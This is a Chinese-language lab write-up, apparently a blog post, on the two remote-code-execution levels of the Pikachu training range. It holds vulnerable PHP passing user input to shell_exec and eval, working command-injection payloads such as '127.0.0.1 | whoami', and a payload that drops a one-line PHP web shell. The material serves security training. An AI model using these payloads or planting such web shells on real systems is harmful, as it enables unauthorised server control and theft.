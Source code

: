 ```yaml
---
layout: post
title: pikachu-01 RCE
author: PWN022
tags:
- 靶场实践
date: 2025-10-04 00:08 +0800
toc:  true
excerpt: ""
---
```


# pikachu-01 RCE(remote command/code execute)

# 概述

pikachu靶场的RCE远程命令执行关卡（2关）记录。

> **介绍**
> RCE远程命令/代码执行，RCE英文全称：remote command/code execute。它是一种极为严重的安全风险，允许攻击者在未授权的情况下，通过网络远程在目标系统上执行任意代码。攻击者利用 RCE安全风险，可直接获取系统的控制权，进而窃取敏感信息，如用户账号、密码、企业机密数据等；还能篡改系统文件和配置，破坏系统的正常运行，导致业务中断；甚至可以在系统中植入后门程序，长期控制目标系统，为后续的攻击活动提供便利。
>
> **远程系统命令执行**
> 一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口，比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上，一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。
>
> 现在很多的甲方企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作。 在这种平台上往往会出现远程系统命令执行的漏洞,不信的话现在就可以找你们运维部的系统测试一下,会有意想不到的"收获"-_-
>
> **远程代码执行**
> 同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## 常用符号

在命令执行安全风险场景里，`&、&&、|、||、`; 这些符号被攻击者用于拼接命令和控制命令执行流程，以下是它们的用法和区别如下所示。

1. `&`

   作用：在多数操作系统中，`&` 用于让命令在后台执行。在命令执行安全风险里，它能使多个命令并行执行，即前一个命令启动后，后续命令无需等待其完成就会开始执行。

   示例：假设存在安全风险的系统允许用户输入并执行命令，攻击者输入 `ping 127.0.0.1 & ls`，那么 ping 命令和 ls 命令会同时开始执行。

2. `&&`

   作用：`&&` 用于按顺序依次执行命令，并且只有当前一个命令成功执行（返回状态码为 0）时，才会执行后一个命令。这常用于需要前一个操作完成且成功后再进行下一步操作的情况。

   示例：输入 `ping 127.0.0.1 && ls`，只有当 ping 命令成功执行（即能正常连接到 127.0.0.1）时，ls 命令才会执行。

3. `|`

   作用：`| `是管道符号，它把前一个命令的输出作为后一个命令的输入。攻击者可利用它将多个命令组合起来，实现复杂的数据处理和操作。

   示例：输入`ls | grep test`，ls 命令会列出当前目录下的文件和文件夹，然后将结果传递给 grep 命令，grep 会在这些结果中查找包含 "test" 的行。同理也可以进行如`ping 127.0.0.1 | whoami`此类的操作。

4. `||`

   作用：`|| `同样用于连接两个命令，不过与 `&& `相反，只有当前一个命令执行失败（返回状态码不为 0）时，才会执行后一个命令。这可用于在某个操作失败时执行备用操作。

   示例：输入 `false || ls`，由于 false 命令执行失败，所以会接着执行 ls 命令。

5. `;`

   作用：`; `用于分隔多个命令，它会依次执行这些命令，无论前一个命令执行成功与否，后续命令都会继续执行。

   示例：输入 `ping 127.0.0.1 ; ls`，先执行 ping 命令，然后不管 ping 执行结果如何，都会执行 ls 命令。

# exec-ping

## 源码分析

```php
// 初始化一个空字符串变量 $result，用于存储执行命令后的结果
$result = '';
 
// 检查是否通过 POST 方式提交了表单，并且表单中名为 'ipaddress' 的字段不为空
if (isset($_POST['submit']) && $_POST['ipaddress'] != null) {
    // 从 POST 请求中获取用户输入的 IP 地址，并将其赋值给变量 $ip
    $ip = $_POST['ipaddress'];
    // $check=explode('.', $ip);
    // 这是一段注释掉的代码，原本意图是将 IP 地址按点号 '.' 拆分成数组，
    // 然后可以对数组中的每个数字进行范围校验，
    // 例如第一位和第四位数字范围是 1 - 255，中间两位数字范围是 0 - 255
    // $check = explode('.', $ip); 
 
    // 检查当前服务器操作系统是否为 Windows 系统
    if (stristr(php_uname('s'), 'windows')) {
        // var_dump(php_uname('s')); 这是一段注释掉的代码，用于打印当前服务器操作系统名称
        // 使用 shell_exec 函数执行 Windows 系统下的 ping 命令，将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping ' . $ip);
    } else {
        // 如果服务器操作系统不是 Windows 系统，则执行 Linux 系统下的 ping 命令，
        // 并指定 ping 的次数为 4 次，同样将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping -c 4 ' . $ip);
    }
}
```

## 解决乱码

在pikachu-master\vul\rce目录中找到rce_ping.php文件，按如下代码进行修改即可解决乱码问题。

```php
if($result){
	$result = iconv("GBK", "UTF-8", $result); // 添加此行代码
	echo "<pre>{$result}</pre>";
}
```

## 正式操作

由于windows和linux有3个命令连接符是相同的`（|,||,&&）`，因此在不知道目标的具体操作系统的情况下（虽然是我自己搭建的环境，但是，假装不知道吧）。

输入payload：`127.0.0.1 | whoami`，结果如下图所示，执行完命令后，可以在页面看到已经获取到了目标的域和用户名：win-unahmjh2g8h\administrator，同时由于是administrator所以也知道了操作系统为Windows。

![alt](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce1.png)

输入payload：`127.0.0.1 | dir`，即可查看到当前路径和路径下的文件。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2.png)

当然还有其它操作，比如输入payload：`127.0.0.1 | ipconfig`可以查看到目标的IP地址。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce3.png)

# exec-eval

## 源码分析

前端：name="txt"产生 POST 字段；后端：用户输入未被过滤直接传入eval()函数中。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-5.png)

## 正式操作

题目给到提交一个喜欢的字符串，所以就先随便扔点东西上去。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-1.png)

这里发现好像没什么限制，所以直接不演了，payload直接输入phpinfo();发现被执行，所以再试试能不能植入一句话木马。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-2.png)

```php
// 一句话木马投放
// payload：
fputs(fopen('shell.php','w'),'<?php assert($_POST[fin]);?>');
```

提交一句话之后，发现页面没什么变化，但是当返回靶机进行查看后，发现目录下已经多了一个shell.php的文件，遂用蚁剑进行连接，于是整个关卡到此结束。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-3.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-4.png)


